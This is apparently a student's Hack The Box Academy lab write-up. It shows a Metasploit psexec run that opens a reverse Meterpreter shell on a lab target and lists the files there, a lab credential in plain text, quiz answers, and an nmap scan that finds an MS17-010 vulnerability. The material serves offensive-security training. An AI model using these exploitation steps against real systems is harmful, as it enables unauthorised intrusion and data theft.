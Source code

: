 ```zsh
SMBPass => HTB_@cademy_stdnt!
msf6 exploit(windows/smb/psexec) > set lhost tun0
lhost => 10.10.14.124
msf6 exploit(windows/smb/psexec) > set lport 1234
lport => 1234
msf6 exploit(windows/smb/psexec) > exploit
[*] Started reverse TCP handler on 10.10.14.124:1234 
[*] 10.129.201.160:445 - Connecting to the server...
[*] 10.129.201.160:445 - Authenticating to 10.129.201.160:445 as user 'htb-student'...
[*] 10.129.201.160:445 - Selecting PowerShell target
[*] 10.129.201.160:445 - Executing the payload...
[+] 10.129.201.160:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (177734 bytes) to 10.129.201.160
[*] Meterpreter session 1 opened (10.10.14.124:1234 -> 10.129.201.160:63027) at 2025-04-20 03:59:51 -0400

meterpreter > 
meterpreter > ls -l C:/Users/htb-student/Documents
Listing: C:/Users/htb-student/Documents
=======================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
040777/rwxrwxrwx  0     dir   2021-10-16 12:08:05 -0400  My Music
040777/rwxrwxrwx  0     dir   2021-10-16 12:08:05 -0400  My Pictures
040777/rwxrwxrwx  0     dir   2021-10-16 12:08:05 -0400  My Videos
100666/rw-rw-rw-  402   fil   2021-10-16 12:08:07 -0400  desktop.ini
100666/rw-rw-rw-  268   fil   2021-10-16 16:16:01 -0400  staffsalaries.txt

```

# Infiltrating Windows

- What file type is a text-based DOS script used to perform tasks from the cli? (answer with the file extension, e.g. '.something') > .bat

- What Windows exploit was dropped as a part of the Shadow Brokers leak? (Format: ms bulletin number, e.g. MSxx-xxx) > MS17-010

- Gain a shell on the vulnerable target, then submit the contents of the flag.txt file that can be found in C:\

```zsh
❯ sudo nmap --script smb-vuln* -p 139,445 10.129.201.97
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-20 04:33 EDT
Nmap scan report for 10.129.201.97
Host is up (0.36s latency).

PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-054: false
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
```